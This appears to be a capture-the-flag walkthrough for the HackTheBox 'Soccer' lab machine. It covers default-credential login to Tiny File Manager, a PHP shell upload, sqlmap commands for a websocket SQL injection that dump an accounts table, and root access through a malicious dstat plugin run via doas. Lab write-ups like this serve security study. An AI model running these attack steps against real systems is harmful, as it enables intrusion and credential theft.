

# Soccer (easy)

### Recon

---

**NMAP**

I use `nmap` to find:

- **All TCP ports** to identify open ones.
- **Service versions** on open ports.
- **OS detection** and **default script execution** for potential vulnerabilities.
- Runs the scan **quickly** (`T4`).

```bash
sudo nmap -sC -sV -A -p- -T4 10.10.11.194
```



SSH (22), HTTP (80) and xmtec… 9091

**Reading Source Code**

I read through the source code, nothing special TBH !


**Subdomain Bruteforce**

I bruteforce subdomain using common.txt, and I also tried Seclist `subdomains-top1million-110000.txt` but no luck.

```bash
gobuster dir -u http://soccer.htb --wordlist /usr/share/dirb/wordlists/common.txt
```


I try different wordlist `/usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt` 


It finds `/tiny` . And I bruteforce subdomain again but this time [`http://soccer.htb/tiny`](http://soccer.htb/tiny)


I find `/uploads`

### Tech Stack

I check technology of the website using whatweb command `whatweb [http://soccer.htb](http://soccer.htb/)`


**Using the website**

The site is for the HTB Football Club; there is no input form, link, or search bar. It might just be a static site.


### Tiny File Manager

I access [`http://soccer.htb/tiny`](http://soccer.htb/tiny) and it is a file manager, and I can easily find the source code on github. 

[https://github.com/prasathmani/tinyfilemanager](https://github.com/prasathmani/tinyfilemanager)


So I try with this credential found on the GitHub repo above


### Shell as www-data

---

**Login Using Deault Credential**

I log in using `admin/admin@123`


Time to try all the functionalities in tinyfilemanager.

- **File Operations**: View, **upload**, download, rename, move, copy, delete, and create folders.
- **File Editing**: Edit text files, preview file content, and search/filter files.
- **Permissions**: Set file/folder permissions and ownership.
- **Archive Management**: Compress and extract files.
- **User Management**: Add/edit users, manage roles, and set access restrictions.
- **Configuration**: Change root directory, update settings, and adjust themes/language.
- **Security**: Manage passwords, monitor sessions, and review activity logs.
- **Integration**: Generate file-sharing links and monitor usage.

But the thing that catches my attention is the upload functionality, which means I can upload my shell to the site.

**Upload shell**

So i go inside this url [http://soccer.htb/tiny/tinyfilemanager.php?p=tiny%2Fuploads](http://soccer.htb/tiny/tinyfilemanager.php?p=tiny%2Fuploads) to upload my `phpinfo.php`

```bash
<?php phpinfo(); ?>
```

After upload it, i test it by opening the file i just uploaded [http://soccer.htb/tiny/uploads/phpinfo.php](http://soccer.htb/tiny/uploads/phpinfo.php)


Yay, it worked !!!

Now, i will try to upload a shell `php-reverse-shell.php` by **pentestmonkey**

[https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

Make sure to change the port that you listen to using nc and change the IP to the tun0 IP (VPN).


Now i got the shell as www-data


I found the flag and tried to cat the flag, but I don’t have enough permission


I check who can read the flag beside root, so the player group can read the flag.


### Shell from www-data to Player

---

From this part, the challenge want us to find the credential so we need to find player credential groups. 

**Upgrade my shell**

Since the shell is quite unstable so i upgrade it by doing the following


Spawn a TTY Shell on lab machine:

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```

Set Terminal Type on lab machine:

```bash
export TERM=xterm
```

`Ctrl +z` and then

Adjust Attacker Terminal (our terminal):

This brings the shell to the foreground and adjusts terminal settings.

```bash
stty raw -echo; fg
```

I try to look for other open ports that weren’t available from the outside:

**ENUMERATION**

I tried `netstat -altp` but no luck


Then i try `nestat -tnlp`


There’s still not much information about what 9091 could be. Hm… i think i should shift my focus to NGINX

I cd to `/etc/nginx/sites-available` to look for NGINX configurations files.


`soc-player.htb`


So i understand that we can find that there is another subdomain running on the machine at “localhost:3000”. I need to update my `/etc/hosts` in order to access this new site that i just discovered.


In this website, we have the following pages

`match`


`login`


`signup`


So I tried signing up and logging in and got redirected to `check`


I test the functionality of this check by inputting a ticket ID. The system queries the database to find the corresponding record.

**SQLI Boolean based**

I can test if this form can be sqli by  `69491 or 1=1-- -`


So I try to check the request using Burp Suite and the network, but it doesn’t appear, the request is being made through a WebSocket.


Now we launch sqlmap; I save the websocket message that I just sent into `sqlmap.req`

```bash
{"id":"69491 or 1=1-- -"}
```


```bash
sqlmap -u 'ws://soc-player.soccer.htb:9091/' --data '{"id":"*"}' --technique=B --risk 3 --level 5 --batch
```

Confirming that this can be SQLi using boolean-based

Now that SQLMap has identified an injection, I'll reuse the previous command with `--dbs` to list databases. Since threads are safe for boolean-based injections, I'll add `--threads 10` to speed it up. SQLMap will resume and display the available databases.

```bash
sqlmap -u ws://soc-player.soccer.htb:9091 --dbs --data '{"id": "666"}' --dbms mysql --batch --level 5 --risk 3 --threads 10
```


**soccer_db**

Now, I will sus out `soccer_db`

```bash
sqlmap -u ws://soc-player.soccer.htb:9091 -D soccer_db --tables --data '{"id": "666"}' --dbms mysql --batch --level 5 --risk 3 --threads 10
```


**Dump credential soccer_db**

```bash
sqlmap -u ws://soc-player.soccer.htb:9091 -D soccer_db -T accounts --dump --data '{"id": "666"}' --dbms mysql --batch --level 5 --risk 3 --threads 10
```


**LFG!!!!!!!!**

So credential is username:player, password:PlayerOftheMatch2022


First flag user.txt at  `/home/player`


### Player Shell to Root

---

**Checking privileges**

Firstly, i try `sudo -l` to list the **sudo privileges** of the current user. Doesn’t work lol !!


Then I look for SetUID binaries

`doas` is an alternative to `sudo` typically found on OpenBSD operating systems and we can definitely installed it on Debian based Linux.

**Privilege Escalation Via `dstat plugin`**

I find doas.conf using this command, so it is at `/usr/local/etc`.

```bash
find / -name doas.conf 2>/dev/null
```


`cat /usr/local/etc/doas.conf`


player can run the command `dstat` as root.

dstat:

- Enhance monitoring with specialized metrics.
- Consolidate system and application monitoring in one tool.
- Easily extendable for custom monitoring needs.

I read the man of dstat. At the very bottom of the page, it has a section on files:

```bash
~/.dstat/
(path of binary)/plugins/
/usr/share/dstat/
/usr/local/share/dstat/
```

Plugins are Python scripts with the name `dstat_[plugin name].py`.
I will try to write a simple shell/ plugin

```bash
echo -e 'import os\n\nos.system("/bin/bash")' > /usr/local/share/dstat/dstat_pwn.py
```

```bash
doas /usr/bin/dstat --pwn
```


GG!!


